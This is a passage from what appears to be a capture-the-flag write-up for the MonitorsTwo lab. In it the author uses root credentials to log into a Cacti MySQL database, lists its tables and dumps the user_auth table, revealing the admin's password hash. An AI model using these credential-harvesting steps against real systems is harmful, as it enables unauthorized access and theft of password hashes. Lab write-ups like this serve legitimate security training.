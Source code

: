 ```shell
fi

exec "$@"
```

It is connected to a mysql database and we have user and password.

```shell
bash-5.1$ mysql --host=db --user=root --password=root cacti
MySQL [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |
| aggregate_graph_templates_graph     |
| aggregate_graph_templates_item      |
| aggregate_graphs                    |
| aggregate_graphs_graph_item         |
...
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
```

Cacti has a huge database but we're just idealy looking for credentials which may be in the ``user_auth`` table.

```shell
MySQL [cacti]> select * from user_auth;
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   663348655 |
```
